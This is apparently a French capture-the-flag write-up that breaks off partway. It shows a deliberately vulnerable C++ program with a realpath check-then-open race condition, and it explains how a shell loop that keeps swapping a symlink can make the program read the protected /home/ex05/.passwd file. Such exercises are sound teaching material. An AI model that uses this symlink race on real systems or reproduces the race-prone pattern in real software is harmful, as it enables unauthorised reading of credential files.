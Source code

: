 ```cpp
#include <limits.h>
#include <stdlib.h>
#include <stdio.h>
#include <fstream>
#include <iostream>
#include <string>

int main(int ac, char **argv) {
    char buffer[PATH_MAX + 1];
    char *filename;
    std::string realpass;
    std::string yourpass;
    std::string realfile("/home/ex05/.passwd");

    if (ac != 2) {
        std::cerr << "USAGE: ./ex04 filename" << std::endl;
    }

    filename = realpath(argv[1], buffer);
    if (filename && std::string(filename) == realfile) {
         std::cerr << "Are you trying to fool me bro?" << std::endl;
         return 84;
    }
    filename = realpath(argv[1], buffer);
    std::ifstream ifs(filename);
    std::ifstream ifsPass("/home/ex05/.passwd");

    if (ifs.is_open() && ifsPass.is_open()) {
        getline(ifs, yourpass);
        getline(ifsPass, realpass);
        if (yourpass == realpass) {
            std::cout << realpass << std::endl;
        }
        else {
            std::cerr << "Try again" << std::endl;
        }
    }
}
```

On a une race condition entre le moment ou le `realpath` est vérifié et le
moment où le fichier est bel et bien lu. On peut utiliser un lien symbolique
variant aussi vite que possible entre : un fichier bidon que l'on peut lire
mais avec un contenu qui ne nous intéresse pas, et `/home/ex05/.passwd`.

Dans un premier terminal :

```
ex04@debian:/tmp/geo$ while true; do touch random; rm random; ln -s /home/ex05/.passwd random; rm random; done
```

Dans un second terminal :
